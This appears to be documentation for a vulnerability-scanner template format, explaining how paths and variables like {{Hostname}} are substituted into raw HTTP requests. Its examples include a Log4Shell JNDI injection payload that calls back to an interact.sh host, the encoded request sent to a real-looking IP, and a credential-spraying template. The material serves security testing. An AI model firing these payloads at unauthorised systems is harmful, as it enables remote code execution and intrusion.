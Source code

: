 ```
        words:
          - 'CVE-2018-7602-POC'
```

**Path**

---
When the user enters one or more paths, they are separated into their own components, replaced with the variables in **raw request** field to form a complete request and send it to the web server.

**Example of using Path:**

>**Request in template**
```
requests:
  - request:
    - |
      GET /?x=${jndi:ldap://${hostName}.uri.{{interactsh-url}}/a} HTTP/1.1
      Host: {{Hostname}}
```

>**URL is provided by user**:

```
https://103.90.225.135:8000
```

>**Request will be sent**

```
GET /?x=%24%7Bjndi%3Aldap%3A%2F%2F%24%7BhostName%7D.uri.jrdtt2i7gbs7wp2h0oxs0efwqcqr0d3gn.interact.sh%2Fa%7D HTTP/1.1
Host: 103.90.225.135:8000
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

Those variables start with *{{* and end with *}}*, case-sensitive.

**Example of raw request is declared in the template**:

```
requests:
  - request:
      - |
        GET /dvwa?username={{users}}&passwd={{passwords}}&email={{emails}} HTTP/1.1
        Host: {{Hostname}}
        User-Agent: {{users}}{{passwords}}&email={{emails}}

        username={{users}}{{Port}}&passwd={{passwords}}&email={{emails}}
```

**Path Variables:**

```
Sample URL: https://testpage.com:8081/login/login.php

{{BaseURL}}: https://testpage.com:8081/login/login.php

{{RootURL}}: https://testpage.com:8081

{{Hostname}}: testpage.com:8081

{{Host}}: testpage.com

{{Port}}: 8081

{{Path}}: /login
```